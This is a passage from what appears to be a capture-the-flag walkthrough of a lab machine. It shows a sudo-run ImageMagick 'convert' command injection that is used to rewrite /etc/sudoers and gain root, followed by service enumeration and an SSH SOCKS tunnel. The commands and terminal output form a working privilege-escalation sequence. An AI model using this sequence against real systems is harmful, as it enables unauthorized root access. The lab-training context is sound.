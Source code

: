 The syntax for execute arbitrary command is:
```
sudo convert 'https://example.com"|<command>"' out.png
```

## Escalation
Now I could escalate the privilege by edit file "/etc/sudoers"
```
sudo convert 'https://example.com"|cp /etc/sudoers /home/margo/"' out.png
sudo convert 'https://example.com"|chown margo:margo /home/margo/sudoers"' out.png
sudo convert 'https://example.com"|chmod +w /home/margo/sudoers"' out.png
vi sudoers
```

Update privilege of margo by add /bin/su to his privilege

```
margo ALL=(ALL) NOPASSWD: /bin/su
```

replace the original file in /etc
```
margo@gibson:~$ sudo convert 'https://example.com"|cp /home/margo/sudoers /etc/sudoers"' out.png
convert.im6: no decode delegate for this image format `/tmp/magick-mJLc4oWT' @ error/constitute.c/ReadImage/578.
convert.im6: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3044.
margo@gibson:~$ sudo su
root@gibson:/home/margo# id
uid=0(root) gid=0(root) groups=0(root)
root@gibson:/home/margo# 
```

Bingo!!!, got root.

## Finding the flag
Let's check for connection status
```
root@gibson:/home# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      1421/dnsmasq    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1107/sshd       
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      1441/qemu-system-x8
tcp        0      0 192.168.239.132:22      192.168.239.131:54206   ESTABLISHED 1622/sshd: margo [p
tcp6       0      0 :::22                   :::*                    LISTEN      1107/sshd       
tcp6       0      0 :::80                   :::*                    LISTEN      1254/apache2    
root@gibson:/home# 
```
Some service is listening on port 5900(qemu-system-x8) that I've not seen in enumeration phase. This is KVM running on the machine.

Now we configure port forwarding through SSH session
```
ssh -D 1111 -N -f -l margo 192.168.239.132
```
